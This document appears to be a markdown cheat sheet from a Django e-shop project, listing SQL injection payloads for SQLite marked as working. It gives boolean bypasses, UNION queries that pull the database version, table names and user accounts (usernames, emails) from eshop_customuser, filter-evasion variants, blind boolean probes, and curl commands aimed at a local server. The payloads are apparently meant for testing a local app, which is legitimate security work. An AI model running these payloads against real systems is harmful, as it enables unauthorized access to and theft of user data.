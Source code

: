 # SQL Injection Test Payloads for SQLite

## Working Payloads

### 1. Basic Boolean-Based (WORKS)
```
' OR '1'='1
```
Returns all products

### 2. Union-Based for SQLite (6 columns)
```
' UNION SELECT '11111111-1111-1111-1111-111111111111', 'Injected Product', 'This is an injected description', 99.99, '2024-01-01', '2024-01-01' --
```
This injects a fake product into the results

### 3. Extract SQLite Version
```
' UNION SELECT '11111111-1111-1111-1111-111111111111', sqlite_version(), 'Version Info', 0, '2024-01-01', '2024-01-01' --
```

### 4. Extract Table Names from SQLite
```
' UNION SELECT '11111111-1111-1111-1111-111111111111', name, 'Table from sqlite_master', 0, '2024-01-01', '2024-01-01' FROM sqlite_master WHERE type='table' --
```

### 5. Extract User Data (CustomUser table in Django)
```
' UNION SELECT id, username, email, 0, date_joined, last_login FROM eshop_customuser --
```

### 6. Comments to bypass filters
```
' OR/**/'1'='1
' OR/*comment*/'1'='1
```

### 7. Case variations
```
' oR '1'='1
' Or '1'='1
```

### 8. Alternative syntax
```
' OR 1=1--
' OR 1=1#
' OR 1=1/*
```

### 9. String concatenation bypass
```
' O'||'R '1'='1
```

### 10. Blind SQL Injection (Time-based won't work well in SQLite)
Instead use boolean-based:
```
' AND (SELECT CASE WHEN (1=1) THEN 1 ELSE 0 END)=1 --
' AND (SELECT CASE WHEN (1=2) THEN 1 ELSE 0 END)=1 --
```

## URL Encoded Versions
Remember to URL encode when testing via browser:
- Space = %20 or +
- ' = %27
- -- = %2D%2D

Example:
```
http://127.0.0.1:8000/?q=%27%20OR%20%271%27%3D%271
```

## Testing with curl
```bash
# Basic test
curl "http://127.0.0.1:8000/?q='%20OR%20'1'='1"

# Union test
curl "http://127.0.0.1:8000/?q='%20UNION%20SELECT%20'11111111-1111-1111-1111-111111111111',%20'Injected%20Product',%20'Description',%2099.99,%20'2024-01-01',%20'2024-01-01'%20--"

# Extract tables
curl "http://127.0.0.1:8000/?q='%20UNION%20SELECT%20'11111111-1111-1111-1111-111111111111',%20name,%20'Table',%200,%20'2024-01-01',%20'2024-01-01'%20FROM%20sqlite_master%20WHERE%20type='table'%20--"
```
